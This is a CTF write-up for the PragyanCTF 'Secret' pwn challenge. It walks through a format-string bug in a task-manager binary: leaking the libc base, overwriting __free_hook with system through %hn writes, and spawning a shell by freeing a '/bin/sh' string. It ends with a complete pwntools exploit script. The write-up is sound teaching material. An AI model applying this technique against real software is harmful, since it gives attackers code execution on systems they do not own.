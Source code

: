 ```yaml
---
title: '[PragyanCTF] Secret'
published: true
tags: [writeup, pwn, fmtstr]
author: Christos.S
category: ctf
---
```



This is a very good challange to polish and/or improve your `format string` skills. But since the CTF's server got hacked and couldn't exploit their server, I tried to at least write an exploit for the program locally with `libc 2.30`.

I first checked what security features are enabled in the binary.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I then opened the binary in [Ghidra](https://ghidra-sre.org/) and started looking through the decompiled code.
After some time looking through the code, I found what I was looking for... A vulnerability I could exploit.

In the function `show_task`, I found this:

```c
    void show_tasks(task *current) {
        printf("\n\nName: %s\n",current->name);
        printf("Date: %s\n",current->num);
        printf("Length: %d\n",current->desc_length);
        printf("Description: ");
        printf(current->desc);
        return;
    }
```

The vulnerable line of code is 
```c
printf(current->desc);
```
with a `format string` vunerability

Then my first thought was to look in the binary symbols for the function `system`; with no success. This led me to believe that I should start the exploit by leaking the `libc base` address.

So now that I have a basic understanding of the binary I can think of the attack:

1. Leak `libc base` address
2. Write the `system` function's address in the `__free_hook`
3. Free an address the points to the string `/bin/sh`

> In step 2 I could have as easily overwriten the GOT entry of some funtion, since the binary only has `Partial RELRO`; but I wanted to try something different with the hook functions I have read about.

Before I start I created 3 functions to interface with the 3 main functionalities of the binary:
1. Create Task
2. Remove Task
3. Display Tasks

___

## Step 1

I found an address on the stack at the `35th` place which points `249` bytes after the start of `__libc_start_main`

```python
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']
```

So after a simple substruction I was able to obtain the `libc base` address

___

## Step 2

This was by far the hardest step in the process. Writing `system`'s address in `__free_hook`. I was not able to just put the address I wanted to overwrite (`__free_hook`) on the the stack because simply my input was never saved on the stack; it went straight onto the heap. So my next option was to find an address on the stack (`2nd` place) that points to another address on the stack (`9th` place). 

Since the address that I wanted to overwrite (`9th` place) on the stack had a chance to have the same highest 2 bytes as the `__free_hooks`, I just written the lowest 2 bytes.

```python
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')
```

Then because I couldn't just write that huge of a number (address of `system`) in one go, I split it into 2 seperate writes. In the first one I wrote the lowest 2 bytes of `system`, changed the address I had on the stack to point 2 bytes forword so I was able to write the highest 2 bytes of `system` in the `__free_hook`

```python
createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')
```

After all this I triggered the the `format string exploit` with `displayTasks()`.

___

## Step 3 

What is now left to do is just free an address that has the string `/bin/sh` written in it. Luckly in the `remove_task` function,

```c
memset(task_ptr->name,0,0x40);
task_ptr->enabled = 0;
task_ptr->desc_length = 0;
free(task_ptr->num);
free(task_ptr->desc);
printf("Removed %s",removename);
```
the first thing that is freed is the `num` field of the `task structure` which is the `date` that is asked when creating a task.

The 1st task I created had `/bin/sh` in the `date` or `num` field, so as soon as that is freed, `system` will be executed with `/bin/sh` giving us a shell!!

```python
removeTask('pwned')
```

---

Below is the full `xpl.py` script:

```python
#!/usr/bin/python
from pwn import *
import re

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./task')

gdbscript = '''
init-gef
c
'''

def start():
	if args.GDB: return gdb.debug(elf.path, gdbscript)
	else: return process(elf.path)

io = start()

def createTask(name, date, descLen, desc):
	io.sendlineafter(':', '1')
	io.sendlineafter(':', name)
	io.sendlineafter(':', date)
	io.sendlineafter(':', str(descLen))
	io.sendlineafter(':', desc)

def removeTask(name):
	io.sendlineafter(':', '2')
	io.sendlineafter(':', name)

def displayTasks():
	io.sendlineafter(':', '3')
	return io.recvuntil('1.')[:-2]

# Leak libc base address
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']

log.success('libc_start_main: 0x%x' % libc_start_main)
log.success('libc base: 0x%x' % libc_base)

# Overide __free_hook with system
system_libc = libc_base + elf.libc.symbols['system']
free_hook = libc_base + elf.libc.symbols['__free_hook']

log.success('system: 0x%x' % system_libc)
log.success('__free_hook: 0x%x' % (free_hook))

# Write __free_hook addr on the stack
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')

log.success("Ready to overwrite __free_hook")

createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')

displayTasks()

removeTask('pwned')

io.interactive()
```
